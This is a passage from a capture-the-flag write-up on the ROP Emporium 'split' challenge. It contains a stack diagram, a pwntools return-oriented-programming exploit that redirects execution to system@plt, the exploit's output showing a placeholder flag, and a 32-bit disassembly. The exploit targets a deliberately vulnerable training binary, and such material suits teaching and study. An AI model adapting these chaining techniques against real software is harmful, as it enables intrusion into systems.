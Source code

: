 ```
		   rsp --> │  00 00 00 00 00 40 07 4b  │ --> system@plt
			   └───────────────────────────┘
			   ╎  .. .. .. .. .. .. .. ..  ╎

Registers:
rdi: 0x601060

═══════════════════════════════════════════════════════════════════════════════════
rip --> ret
	## Move the address of system@plt into rip, thus executing it with the
           argument that is in rdi.
═══════════════════════════════════════════════════════════════════════════════════
```

### Exploit

```python title="exploit64.py"
from pwn import *

padding = b"a"*40
poprdi_addr = p64(0x00000000004007c3)
bincat_addr = p64(0x601060)
system_addr = p64(0x000000000040074b)

payload = padding + poprdi_addr + bincat_addr + system_addr

p = process('./split')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit64.py 
[+] Starting local process './split': pid 987
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

&nbsp;

## 32 bit

### `usefulFunction()`

```
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:     push   ebp
   0x0804860d <+1>:     mov    ebp,esp
   0x0804860f <+3>:     sub    esp,0x8
   0x08048612 <+6>:     sub    esp,0xc
   0x08048615 <+9>:     push   0x804870e
   0x0804861a <+14>:    call   0x80483e0 <system@plt>
   0x0804861f <+19>:    add    esp,0x10
   0x08048622 <+22>:    nop
   0x08048623 <+23>:    leave
   0x08048624 <+24>:    ret
End of assembler dump.
```